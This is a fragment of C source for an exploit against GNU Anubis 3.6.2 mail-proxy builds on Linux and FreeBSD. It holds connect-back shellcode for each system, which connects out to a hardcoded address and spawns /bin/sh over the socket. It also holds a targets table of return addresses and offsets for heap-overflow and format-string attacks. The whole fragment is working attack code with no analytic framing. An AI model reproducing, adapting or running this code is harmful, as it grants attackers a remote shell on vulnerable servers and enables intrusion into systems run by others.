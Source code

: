#define JMPCODE          "\xeb\x0c"

static int connect_target = 0;
static int start_auth = 0;

    /* Connect back */
static char linux_code[] =
    "\x31\xc0\x50\x50\x68\xc0\xa8\x01\x01\x66\x68\x30\x39\xb0\x02"
    "\x66\x50\x89\xe6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\x31\xdb\x43"
    "\x30\xe4\xb0\x66\xcd\x80\x89\xc5\x6a\x10\x56\x55\x89\xe1\xb3"
    "\x03\xb0\x66\xcd\x80\x89\xeb\x31\xc9\x31\xc0\xb0\x3f\xcd\x80"
    "\x41\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x31\xd2\x52\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
    "\x0b\xcd\x80\x31\xc0\x40\xcd\x80";

    /* Connect back */
static char freebsd_code[] =
    "\x31\xc0\x50\x50\x68\xc0\xa8\x01\x01\x66\x68\x30\x39\xb4\x02"
    "\x66\x50\x89\xe2\x66\x31\xc0\x50\x40\x50\x40\x50\x50\x30\xe4"
    "\xb0\x61\xcd\x80\x89\xc7\x31\xc0\xb0\x10\x50\x52\x57\x50\xb0"
    "\x62\xcd\x80\x50\x57\x50\xb0\x5a\xcd\x80\xb0\x01\x50\x57\x50"
    "\x83\xc0\x59\xcd\x80\xb0\x02\x50\x57\x50\x83\xc0\x58\xcd\x80"
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
    "\x50\x53\x89\xe2\x50\x52\x53\x50\xb0\x3b\xcd\x80\x31\xc0\x40"
    "\x50\x50\xcd\x80";

struct target {
    char type;
    char *desc;
    char *code;
    u_int bufaddr;  /* static buf on line 266 in net.c, used by recv() */
    u_int retloc;
    u_int offset;
    u_int written;
    u_int pad;
};


struct target targets[] = {
    /* .GOT free */
    { OVERFLOW, "Linux anubis-3.6.2-1.i386.rpm [glibc < 3.2.0] (overflow)",
        linux_code, 0x08056520, 0x08056464, 305, 0x00, 0x00 },

    /* .GOT strlen */
    { FMTSTR, "Linux anubis-3.6.2-1.i386.rpm (fmt, verbose)", linux_code,
        0x08056520, 0x080563bc, 10*4, 32, 1 },

    /* .dtors */
    { FMTSTR, "FreeBSD anubis-3.6.2_1.tgz (fmt)", freebsd_code,
        0x805db80, 0x0805cc10+4, 12*4, 20, 1 },

    /* .GOT getpwnam */
    { FMTSTR, "FreeBSD anubis-3.6.2_1.tgz (fmt, verbose)", freebsd_code,
        0x805db80, 0x0805ce18, 15*4, 32, 1 },

    { -1, NULL, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 }
};
